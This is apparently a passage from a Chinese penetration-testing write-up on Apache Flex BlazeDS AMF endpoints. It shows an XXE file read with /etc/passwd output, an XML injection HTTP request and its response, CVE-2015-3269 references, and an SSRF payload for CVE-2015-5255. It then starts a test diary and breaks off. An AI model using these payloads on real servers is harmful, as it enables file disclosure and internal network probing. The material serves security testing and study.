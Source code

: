 ```xml
&lt;/object&gt;&lt;null/&gt;&lt;string&gt;root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
[...]
```

**XML注入**

```http
POST /samples/messagebroker/http HTTP/1.1
Content-type: application/x-amf

&lt;?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?&gt;
&lt;amfx ver=&#34;3&#34;&gt;&lt;body targetURI=&#34;&#34; responseURI=&#34;d&#34; injectedattr=&#34;anything&#34;&gt;&lt;null/&gt;
&lt;/body&gt;&lt;/amfx&gt;
```

响应体

```xml
&lt;?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?&gt;
&lt;amfx ver=&#34;3&#34;&gt;&lt;body targetURI=&#34;d&#34; injectedattr=&#34;anything&#34; responseURI=&#34;&#34;&gt;&lt;null/&gt;&lt;/body&gt;&lt;/amfx&gt;&lt;/body&gt;&lt;/amfx&gt;
```

#### XXE(CVE-2015-3269)

- 乌云老文章：[AMF解析遇上XXE，BurpSuite也躺枪](https://wooyun.js.org/drops/AMF解析遇上XXE，BurpSuite也躺枪.html)

- [CVE-2015-3269: Apache Flex BlazeDS XXE Vulnerabilty](https://codewhitesec.blogspot.com/2015/08/cve-2015-3269-apache-flex-blazeds-xxe.html)

#### SSRF(CVE-2015-5255)

```
&lt;!DOCTYPE foo PUBLIC &#34;-//VSR//PENTEST//EN&#34; 
&#34;http://49.x.y.z:8888/protected-service&#34;&gt;&lt;foo&gt;Some content&lt;/foo&gt;
```



## 我的测试日记

在2025年8月的平凡一天，去客户现场进行渗透测试，遇到了一个Flash网站，我打算在这部分说下我遇到的问题及解决方案。

测试环境

1. 内网环境测试系统
2. 测试机为Windows，2021版Burp

### Flash功能
